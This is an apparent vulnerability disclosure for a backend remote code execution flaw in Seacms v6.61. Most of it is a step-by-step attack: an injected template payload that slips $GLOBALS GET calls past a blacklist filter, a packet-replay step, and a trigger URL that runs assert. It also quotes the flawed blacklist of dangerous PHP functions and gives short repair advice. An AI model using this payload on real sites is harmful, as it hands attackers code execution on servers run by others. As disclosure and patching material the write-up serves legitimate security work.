






###Seacms v6.61 latest version backend RCE
@(技术学习)[Published]
***
####Attack process
First: login to the admin panel , in System setup panel , we add a playback sources.


The name of the source is 
```bash
{if:1)$GLOBALS['_G'.'ET'][z1]($GLOBALS['_G'.'ET'][z2]);//}{end if}
```
others params Can write casually

Second：we add a video , in Playback source , we choose What we added just now ， Data address Can write casually ，and click the Manual correction button. 


Then we Capture packets , and change the value of v_playfrom[1] to 
```bash
{if:1)$GLOBALS['_G'.'ET'][z1]($GLOBALS['_G'.'ET'][z2]);//}{end if}
```
and Replay the  packets .

Third : Code execution:
we can get the id of the video in the manage panel : 3

then we visit ```http://127.0.0.1/seacms/video/index.php?3-0-0.html&z1=assert&z2=phpinfo();``` , You can see the RCE .
(tips: 3-0-0.html 3 is the id of the video.)



####Principle analysis
In the render view process of this cms , some parameters is not checked stricted .
In ```/include/main.class.php```, there are a function ```parseIf()``` which is fragile . 
```php
$iarok[] = str_ireplace(array('unlink','opendir','mysqli_','mysql_','socket_','curl_','base64_','putenv','popen(','phpinfo','pfsockopen','proc_','preg_','_GET','_POST','_COOKIE','_REQUEST','_SESSION','_SERVER','assert','eval(','file_','passthru(','exec(','system(','shell_'), '@.@', $v);
```


####Repair advice
change the Blacklist filtering rule ,and filter the ```GLOBALS```Key word .

